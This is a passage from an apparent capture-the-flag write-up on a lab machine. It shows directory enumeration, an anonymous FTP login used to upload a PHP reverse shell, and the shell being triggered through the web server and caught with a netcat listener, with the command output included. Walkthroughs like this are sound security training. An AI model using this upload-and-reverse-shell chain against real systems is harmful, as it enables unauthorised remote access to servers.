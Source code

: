 ```bash
/files                (Status: 301) [Size: 314] [--> http://10.10.225.152/files/]
Progress: 16494 / 220561 (7.48%)                                                                                
```
Lets check out files
We see ftp directory, notes.txt, important.jpg
#### FTP login
We can login ftp as anonymous and put php-reverse-shell
```bash
$ ftp 10.10.225.152                                                                                   
Connected to 10.10.225.152.
220 (vsFTPd 3.0.3)
Name (10.10.225.152:starboy): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (69.8344 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5492 Jun 06 14:56 php-reverse-shell.php
226 Directory send OK.
ftp> 
```
#### Gaining a reverse shell
Now we can browse to MACHINE-IP/files/php-reverse-shell.php to gain a reverse shell in out nc listener.
```bash
$ nc -lvnp 8888                                                                                       
listening on [any] 8888 ...
connect to [10.17.6.214] from (UNKNOWN) [10.10.225.152] 36336
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:02:38 up 39 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
incidents
initrd.img
```